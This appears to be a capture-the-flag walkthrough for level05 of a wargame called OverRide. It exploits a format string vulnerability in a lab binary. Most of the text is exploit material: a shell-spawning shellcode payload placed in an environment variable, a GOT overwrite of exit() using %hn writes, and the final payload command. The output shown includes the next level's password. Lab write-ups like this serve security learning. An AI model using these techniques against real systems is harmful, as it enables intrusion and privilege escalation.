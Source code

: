 # Level05 Walkthrough

## Analyzing the Program with GDB and ghidra

1. **Whats happening**: 

```bash
level05@OverRide:~$ ./level05
AAAAAAAAAAAAAAAAAAAA
aaaaaaaaaaaaaaaaaaaa
```

- Le programme utilise `repnz scas` pour calculer la longueur effective de la chaîne en mémoire.
```bash

0x080484e6 <+162>:   mov    %eax,%edx
0x080484f3 <+175>:   repnz scas %es:(%edi),%al <----- Here 
0x080484f5 <+177>:   mov    %ecx,%eax
0x080484f7 <+179>:   not    %eax
0x080484f9 <+181>:   sub    $0x1,%eax
```

- Here, we can see the use of `fgets()` without protection watching if its above 100, and also a conversion to lowercase `0x080484bb <+119>:   xor    $0x20,%edx` 

- `printf()` and then `exit()`
```bash
0x08048504 <+192>:   mov    %eax,(%esp)
0x08048507 <+195>:   call   0x8048340 <printf@plt>
0x08048513 <+207>:   call   0x8048370 <exit@plt>
```

- The vulnerability here is a `format string attack` 

2. **Trying the format string attack**

- Identify the offset: `10th position` 
```bash
python -c 'print "aaaa" + " %x " * 60' | ./level05
aaaa 64  f7fcfac0  0  0  0  0  ffffffff  ffffd764  f7fdb000  61616161  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  20782520  2078252
[...] just verify again
python -c 'print "aaaa %10$x"' | ./level05
aaaa 61616161
```

- Here lets use a shellcode using a env variable to avoid the `to_lowercase` alteration
```bash

export SHELLCODE=$(python -c 'print "\x90"*100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')

```

- to know the ENV address (ALWAYS USE THIS CODE), create it in /tmp
```bash
#include <stdio.h>
#include <stdlib.h>

int main ()
{
  printf("%p\n", getenv("SHELLCODE"));
  return 0;
}
```

- We also need the exit() function cuz we'll overwrite it (relocation address) in the `GOT` to target our shellcode instead : 
```bash
(gdb) info functions exit
All functions matching regular expression "exit":

Non-debugging symbols:
0x08048370  exit
0x08048370  exit@plt
(gdb) x/i 0x08048370
   0x8048370 <exit@plt>:        jmp    *0x80497e0 <----- This is exit() on the GOT
[...]
(gdb) x/wx 0x80497e0
0x80497e0 <exit@got.plt>:	0x08048376
```

- Now, its like rainfall level04, we'll have to write it 2bytes at a time with the `short modifier` (`%hn`). We can pass 2 addresses at the start of our buffer and acces them in $10 and $11. Now calculate our shellcode : 
```bash
printf %d 0xffff
0xffff = 65535

printf %d 0xd89a
0xd89a = 55450

65535 - 55450 = 10085
```

Everytime the address will change because we upload it, so we'll have to do the calculation everytime we do this level05.

---

3. **Final Payload Explanation**

- We know that, it's impossible to write long integer SHELLCODE which is like `4294957210` in decimal for `0xffffd89a`, so, we'll have to write in the high-order bytes (x0ffff) and the low-order bytes (0xd89a).

- `"%55442x%10$hn` : will write `55442` because we already have written 8 bytes for `exit()` 4 and for 4.

- `%10085x%11$hn` : will write `10085` which is the high order bytes 

```bash

python -c 'print "\x08\x04\x97\xe0"[::-1]+"\x08\x04\x97\xe2"[::-1]+ "%55442x%10$hn%10085x%11$hn"'> /tmp/toto/exploit

(cat /tmp/toto/exploit;cat) | ./level05
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```


## Moving to level06

1. **Swith User to level06**:
    Run ```su level06```

2. **Authenticate with the Password**:
    
   
 